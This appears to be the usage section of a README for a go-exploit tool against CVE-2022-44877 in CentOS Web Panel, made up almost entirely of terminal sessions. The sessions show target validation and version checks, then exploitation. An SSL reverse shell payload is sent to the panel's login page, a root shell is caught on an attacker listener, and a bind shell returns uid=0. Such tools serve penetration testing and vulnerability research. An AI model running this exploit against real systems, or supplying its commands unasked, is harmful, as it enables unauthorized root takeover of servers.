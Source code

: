 # Example Usage

## Automatic SSL Detection and Target Validation

```sh
albinolobster@mournland:~/go-exploit/examples/cve-2022-44877$ ./cve-2022-44877 -a -v -rhost 10.9.49.214
[*] Validating the remote target is a CentOS Web Panel installation
[+] Target validation succeeded!
```

## Automatic SSL Detection and Version Checking

```sh
albinolobster@mournland:~/go-exploit/examples/cve-2022-44877$ ./cve-2022-44877 -a -c -rhost 10.9.49.214
[*] Running a version check on the remote target
[-] broken.jpg has been modified since April 3, 2022. This instance *might* be vulnerable.
[*] The target *might* be a vulnerable version. Continuing.
```

## Automatic SSL Detection, Target Validation, Version Checking, and Exploitation using Default C2

```sh
albinolobster@mournland:~/go-exploit/examples/cve-2022-44877$ ./cve-2022-44877 -a -c -v -e -rhost 10.9.49.214 -lhost 10.9.49.186 -lport 1270
[*] Validating the remote target is a CentOS Web Panel installation
[+] Target validation succeeded!
[*] Running a version check on the remote target
[-] broken.jpg has been modified since April 3, 2022. This instance *might* be vulnerable.
[*] The target *might* be a vulnerable version. Continuing.
[*] Generating a TLS Certificate
[*] Starting TLS listener on 10.9.49.186:1270
[*] Sending an SSL reverse shell payload for port 10.9.49.186:1270
[+] Sending exploit to https://10.9.49.214:2031/login/index.php
[+] Caught new shell from 10.9.49.214:35868
[*] Active shell from 10.9.49.214:35868
$ whoami
sh: no job control in this shell
sh-4.2# whoami
root
$ pwd
pwd
/tmp
$ 
```

## Attacker-specified SSL and Exploitation using a non-default C2 (bind shell)

```sh
albinolobster@mournland:~/go-exploit/examples/cve-2022-44877$ ./cve-2022-44877 -s -e -rhost 10.9.49.214 -c2 SimpleShellClient -bport 1270
[*] Sending a bind shell for port 1270
[+] Sending exploit to https://10.9.49.214:2031/login/index.php
[+] Connected to 10.9.49.214:1270!
$ id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
$ 
```

